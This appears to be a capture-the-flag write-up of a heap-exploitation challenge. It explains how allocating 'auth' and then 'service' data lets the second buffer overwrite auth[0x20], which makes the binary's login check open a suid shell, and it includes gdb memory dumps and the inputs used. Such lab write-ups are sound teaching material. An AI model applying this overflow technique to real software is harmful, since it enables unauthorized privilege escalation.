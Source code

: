 # Control heap

## Context

Source code of this chall is complicated, but easier while reading throught asm and debugger.

We can conclude, there is 4 action permited: auth, service, reset, and login.

- auth : malloc auth global variable and strcpy into the malloc.
- service : strdup and copies data into service global variable
- reset : we dont need to. but free things without checking anything, double free vuln.
- login: check if auth[0x20] != 0. If it doesn't it open you a suid shell.


## Exploit:

First, lets auth us. It print out the pointer in the heap:

```c
(nil), (nil) 
auth AAAAAAAA
0x804a9c0, (nil)
```

Lets see what stored a the address:

```c
x/20wx 0x804a9c0

0x804a9c0:	0x41414141	0x41414141	0x00000a41	0x00021639
0x804a9d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a9e0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Well, 16 byte. So now, if i do a service, it gonna malloc at next address on the heap: 0x804a9d0, so strdup should write data here.

For login (and trigger a suid shell), you have to write data at auth[32] so 0x804a9d0 is auth + 16, i need write 17 more byte. 

```c
service BBBBBBBBBBBBBBBB ('B' * 16 + '\n')
0x804a9c0, 0x804a9d0 

gef➤  x/20wx 0x804a9c0
0x804a9c0:	0x41414141	0x41414141	0x0000000a	0x00000021
0x804a9d0:	0x42424220	0x42424242	0x42424242	0x42424242
0x804a9e0:	0x00000a42	0x00000000	0x00000000	0x00021619
```

```DWORD PTR [eax+0x20]``` = '0xa42

Its win.